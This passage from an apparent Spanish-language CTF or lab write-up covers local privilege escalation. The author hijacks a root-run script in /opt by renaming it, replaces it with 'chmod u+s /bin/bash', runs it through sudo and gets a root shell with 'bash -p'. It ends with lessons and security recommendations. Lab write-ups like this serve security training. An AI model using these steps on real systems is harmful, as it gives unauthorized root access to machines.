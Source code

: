 Listando permisos vemos que pertenece al usuario **root** pero tenemos la capacidad de renombrarlo, Asi que secuestraremos este script para crear el nuestro propio con instrucciones para que otorgue permisos **SUID** a la bash de **root**
```bash
cd /opt/ # Nos movemos a esta ruta
mv bash.sh otro.sh # Modificamos el nombre del script legitimo
nano bash.sh # Cremamos el nuestro que sustituira al legitimo
chmod +x bash.sh # Le damos permiso de ejecucion
```

Este es el contenido de nuestro escript:
```bash
chmod u+s /bin/bash
```

Ahora solo toca ejecutarlo con privilegios para que funcione:
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/local/bin/bash
```

Ahora tendremos la bash con privilegios **SUID**
```bash
jenkhack@71c44529a7a4:/opt$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Ejecutamos una bash con privilegios:
```bash
/bin/bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a detectar rutas del citio web desde el codigo fuente
2. Aprendimos a ejecutar codigo desde su editor el cual nos permitio ganar acceso al sistema
3. [Lección 3]

## Recomendaciones de Seguridad
- No exponer rutas sensibles del sistema
- Evitar credenciales en archivos: **( note.txt )**
- Usar cifrados robusto para las contrasenas.